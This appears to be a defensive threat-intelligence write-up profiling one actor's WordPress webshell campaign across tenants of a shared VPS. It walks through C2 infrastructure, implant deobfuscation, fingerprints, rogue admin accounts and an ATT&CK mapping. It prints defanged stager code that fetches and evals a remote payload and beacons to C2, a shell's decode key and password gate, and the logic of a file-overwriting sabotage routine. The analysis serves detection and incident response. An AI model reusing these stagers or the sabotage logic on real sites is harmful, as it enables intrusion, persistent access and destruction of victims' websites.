




# One Toolkit, Many Tenants

The intel view of the same incident. Not how it was cleaned, but who ran it and how their toolkit was built: the shared obfuscation of the PHP implants, the redirect and command-and-control infrastructure, the account tradecraft, and the spread across every tenant on one shared host.

*Companion to the [war story](./01-ir-war-story.html), which covers the defender's response. This piece profiles the actor and reverse-engineers the implants. Affected parties are anonymized; attacker indicators appear defanged.*

## The thesis: one actor, one kit, many victims

Several unrelated WordPress sites shared one FTP-only VPS. All of them were compromised the same way, with the same webshell families, the same allowlist concealment, the same redirect infrastructure, and the same rogue-account tradecraft. This was not many opportunistic break-ins. It was one operator working a toolkit across a shared host.



*The same kit reappears on every tenant. Shared host, shared tradecraft, one operator.*

## Infrastructure

The campaign monetized hijacked traffic through link shorteners and a mobile popunder, and kept re-entry alive through remote command-and-control hosts that served payloads on demand. Separating the two matters: the redirect infrastructure is what visitors hit, the C2 infrastructure is how the actor kept control.



*Two networks: what the visitor is redirected to, and what the actor calls back to.*

| Host / pattern | Defanged | Role | Called by |
|---|---|---|---|
| Shortener family | `ushort[.]company`, `urshort[.]com`, `u-short[.]net` | Traffic monetization / SEO redirect | Content injection |
| Popunder | `olame[.]live` | Mobile popunder, numbered paths | Content injection |
| C2 stager | `github.eshree[.]top/fkolpsfd/olpfkchwa.txt` | `eval(base64)` second stage | Remote stager |
| C2 loader | `vpsdd.fnftus[.]top/test/gg.txt`, `/door/<doact>.txt` | Parameterized payload delivery | Remote loaders |
| C2 beacon | `remote2025.byhot[.]top/index.php` | URL-exfil check-in | Off-web-root pair |

The redirect stems are a family, not a single domain. The actor rotated `ushort`, `urshort`, and the hyphenated `u-short` across TLDs, which is why a hunt for one literal string missed live infections. Match `ur?short` plus the hyphen form.

## Reverse-engineering the implants

The most revealing part of this campaign is how the PHP implants are built. Every shell is wrapped in layered, self-decoding obfuscation designed to defeat static signatures and casual reading. Peeling those layers is both how you understand the toolkit and how you fingerprint the actor, because the construction choices are consistent across implants.

All of this deobfuscation is static and safe: you replace the final execution sink with output, or decode the layers by hand, and never let the payload run.

### The WSO "orb yanz" shell: a five-stage decode

The primary shell does not contain readable code on disk. It contains a short bootstrap that reconstructs the real shell through five transformations, writes the result to a temporary file, includes it, and deletes it.



*Five stages of self-decoding. The XOR key 'wsoyanz' is the actor's fingerprint.*

To read it without running it, walk the layers manually. The safe method is to decode each stage and stop before the include:

```
1. base64_decode()  x3            -> peels the outer wrappers
2. gzinflate()                    -> inflates the compressed body
3. XOR each byte with "wsoyanz"   -> the repeating-key cipher
   then base64_decode()           -> yields the final PHP
4. DO NOT include. Print it.      -> replace include() with echo / file_put_contents
```

What emerges is a full WSO-family operator console: file browser, upload, download, edit, create, delete, rename, `chmod`, `touch`, and raw command execution through `shell_exec($_POST['command'])`. It is gated by a host-derived cookie whose value is a fixed hex string, so its use blends into normal traffic unless you know the cookie name and value to hunt.

The tells that survive obfuscation, and that cluster this implant to the actor, are the XOR key `wsoyanz`, the marker `WSOX ENC`, and the banner `PRIV8 WEB SHELL ORB YANZ BYPASS`. Those strings are stable across the campaign even when filenames and outer encodings change.

### The "WebShell by boot" panel: two-layer wrapper, static gate

The backup panel is simpler by design. It is a file manager with no command execution, wrapped in two Base64 layers, and gated by a static password.

```
outer:  base64_decode( base64_decode( body ) )   -> the panel source
title:  "WebShell by boot"
auth:   $_SESSION['cc'] === 'abcd'   (set via ?cc=abcd)
onfail: echo 'cc'; exit;             -> silent to a casual visitor
exec:   none (no shell_exec/system/exec/passthru/proc_open)
```

The deliberate absence of command execution is itself a fingerprint. This is a re-entry tool, meant to survive removal of the louder shells and let the actor re-plant them. The static gate `cc=abcd` is trivial to hunt in logs precisely because it never changes.

### The remote stagers: no payload on disk

Several implants carry no logic of their own. They fetch it. The construction is the same across them: decode a hardcoded URL, retrieve its contents, and `eval` the result.

```
$b = fetch("hxxps://github.eshree[.]top/fkolpsfd/olpfkchwa.txt");
eval("?>" . base64_decode($b));

// siblings, byte-identical pair found outside the web root:
//   if $_GET['doact']:  fetch "hxxps://vpsdd.fnftus[.]top/door/<doact>.txt" and run
//   else:               beacon POST current URL to "hxxp://remote2025.byhot[.]top/index.php"
```

Because the real second stage lives off-host, the file on disk never changes and a hash never matches twice. This is the reason hash-based scanning failed and behavior-based hunting was required. The fingerprint is the shape: a tiny file, a hardcoded C2 URL, `eval(base64_decode(...))`, and a beacon fallback.

### The sabotage kill-switch: obfuscated with goto

One implant exists only to destroy. It is flattened with PHP `goto` to frustrate reading, but the control flow reduces to a simple loop: compare the site root `.htaccess` and `index.php` against a chosen WordPress asset file, and when the sizes differ, overwrite them with that asset's bytes and set them read-only.

```
targets = DOCUMENT_ROOT/.htaccess , DOCUMENT_ROOT/index.php
for each target:
    if exists and size != chosen_asset_size:
        chmod 0644 ; overwrite with WordPress asset bytes ; chmod 0444
```

Deobfuscating `goto` flattening is a matter of following the labels in order and rebuilding the loop. The result is not a shell and not a panel. It is anti-remediation: trip it and the defender is now also repairing a broken site whose entry point has been replaced with irrelevant bytes and locked read-only.

## Fingerprints: what clusters this to one actor

Across every tenant and every implant, the same construction choices repeat. Any two of these together are a strong signal of the same toolkit.

| Fingerprint | Where it appears |
|---|---|
| XOR key `wsoyanz`, `WSOX ENC`, `ORB YANZ BYPASS` | WSO shell across hosts |
| Panel title `WebShell by boot`, gate `cc=abcd` | Backup file-manager shell |
| Host-derived cookie gate, fixed hex value | WSO shell |
| Allowlist `.htaccess`: deny all executables, allow one random `.php` | Every shell directory |
| Random lowercase filenames, e.g. `oXwAYNxH.php` | All dropped shells |
| Disguised `Protect Uploads 0.3` plugin directories, inactive | Camouflage / re-drop |
| `eval(base64_decode(fetch(hardcoded C2)))` | All remote stagers |
| Rogue admins with `user_registered = 1970-10-10 10:10:10` | Account persistence |

## Account tradecraft

The actor did not rely only on files. On the anchor site, two administrator accounts were inserted directly into the database, outside any WordPress workflow.

```
zwradmin / xwjadmin
  user_registered = 1970-10-10 10:10:10     impossible timestamp, a direct-insert tell
  session_tokens source IP  = 31.207.38.194
  session User-Agent        = Mozilla/5.0 ... Chrome/90.0.4430.85 Safari/537.36
  created within the same minute as disguised plugin directories
  no matching WordPress admin-install request in the web logs
```

Accounts, files, and valid sessions appearing together, from the server side, in the same minute, with no corresponding HTTP request, point to server-side write capability rather than a stolen password. That is the single most important attribution fact in the campaign: the actor could write to disk and to the database directly.

## Campaign behavior

Read as operations, the campaign follows a consistent kill chain and, crucially, loops back on itself. Each remediation that treated only the visible files was followed by a re-drop from the persistence layer.



*The loop is the point. Persistence outlived every file-only cleanup.*

## Living off the land

Not every stage used custom malware, and the stage that did the most damage used none. The database poisoning was carried out with a legitimate tool: a copy of InterconnectIT's Search-Replace-DB was dropped into the web root. That is a real, widely-used administrator utility for find-and-replace across a WordPress database, serialized data included. In the operator's hands it became a mass-injection engine. One pass rewrote the shortener string into thousands of rows, with no bespoke code to write or hide.

The copy on the host also carried the tool's legacy `preg_replace(... /e)` pattern, a known remote-code-execution foot-gun in old PHP, which is a second reason such a tool is dangerous to leave reachable. But the sharper lesson is detection. Living off the land means the destructive step has no malware signature. A file scan sees a known-good utility and a series of ordinary SQL updates. There is nothing for YARA to match.

This is why the database was the layer that kept surviving file-only cleanups. You can run this exact technique, and practice detecting it when there is no malicious file to find, in the [reproduction lab](https://github.com/ZenithGenius/wordpress-webshell-campaign/tree/main/wp-persist-lab)'s living-off-the-land module.

## MITRE ATT&CK

| Tactic | Technique | In this campaign |
|---|---|---|
| Initial Access | `T1190` Exploit Public-Facing Application | Server-side write into web root and database |
| Execution | `T1059.004` / PHP `eval` | `eval(base64_decode(...))` in stagers and shells |
| Persistence | `T1505.003` Web Shell | WSO, boot, Tiny File Manager, terminal shell |
| Persistence | `T1136.001` Create Account | Rogue admins inserted directly into the DB |
| Persistence | `T1027` Obfuscated Files | Layered base64 + gzinflate + XOR, `goto` flattening |
| Defense Evasion | `T1564.003` Hide Artifacts | Allowlist `.htaccess`, disguised plugin dirs |
| Command and Control | `T1105` Ingress Tool Transfer | Off-host second stages fetched on demand |
| Command and Control | `T1071.001` Web Protocols | HTTP(S) C2 and beacon |
| Impact | `T1491.001` Internal Defacement | Redirect injection into pages and files |
| Impact | `T1565.001` Stored Data Manipulation | Legitimate Search-Replace-DB tool used to inject at scale |
| Impact | `T1485` Data Destruction | Sabotage kill-switch overwriting root files |

## Victimology and attribution limits

The victims were unrelated organizations that happened to share one hosting account structure on one VPS: a nonprofit foundation as the anchor, an organic-food nonprofit with many vhosts, an IT-retail multisite, and other tenant sites. There is no relationship between them except the host. The actor's target was the shared host, and every site on it was collateral.

What can be stated with confidence: one toolkit, server-side write capability, a monetization model built on link shorteners and a mobile popunder, and a persistence design that defeated file-only cleanup. What cannot be proven from the available evidence: the exact initial-access exploit, the identity behind the infrastructure, and the current contents of the off-host C2 payloads, which the actor could change at any time.

See the [indicators of compromise and YARA rules](./IOCs.html) for the defanged, machine-readable version of everything above. The [war story](./01-ir-war-story.html) covers how this was cleaned; a safe reproduction lab is the next piece in this series.
